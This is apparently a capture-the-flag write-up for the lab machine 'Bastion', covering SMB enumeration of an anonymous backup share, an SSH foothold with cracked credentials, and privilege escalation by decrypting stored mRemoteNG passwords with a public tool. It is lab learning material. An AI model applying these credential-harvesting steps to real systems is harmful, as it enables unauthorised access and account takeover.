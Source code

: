 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Bastion
# 17/4/2023
10.10.10.134

----------------------------------------------------
# nmap
----------------------------------------------------
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds


----------------------------------------------------
# enum
----------------------------------------------------
└─$ smbclient -L //10.10.10.134     
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC


└─$ smbclient -N //10.10.10.134/Backups 
smb: \WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\> ls
  9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd     An 37761024  Fri Feb 22 07:44:03 2019
  9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd     An 5418299392  Fri Feb 22 07:45:32 2019
The hash is cracked as bureaulampje.

----------------------------------------------------
# foothold
----------------------------------------------------
Using the credentials l4mpje / bureaulampje we can now login via SSH.

----------------------------------------------------
# priv esc
----------------------------------------------------
cd C:\Progra~2
dir
cd mRemoteNG

We find mRemoteNG to be installed. A quick google search about it says that it’s a remote
connection manager and stores credentials too

Looking at the changelog.txt we that the version is 1.76.11.

The software stores it’s configuration in C:\Users\L4mpje\AppData\Roaming\mRemoteNG in
the file confCons.xml. Let's check it out.

cd C:\Users\UserName\AppData\Roaming\mRemoteNG
confCons.xml

aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==

decrypt it 

We obtain the password as thXLHM96BeKL0ER2. We can now SSH in as the Administrator.




method to decrypt
Around the time Bastion came out, mremoteng-decrypt showed up on GitHub. At the time, there was only a java release, which I downloaded and ran here, and it worked:

git@github.com:kmahyyg/mremoteng-decrypt.git

java -jar decipher_mremoteng.jar V22XaC5eW4epRxRgXEM5RjuQe2UNrHaZSGMUenOvA1Cit/z3v1fUfZmGMglsiaICSus+bOwJQ/4AnYAt2AeE8g==

java -jar decipher_mremoteng.jar OuhzIwEZtD30y9QFzUOGDDoHnaSWGQFHcD5YSnj/YoJ2sE41GLoykzMgEAZh940z8pKetHSQDonI5/z7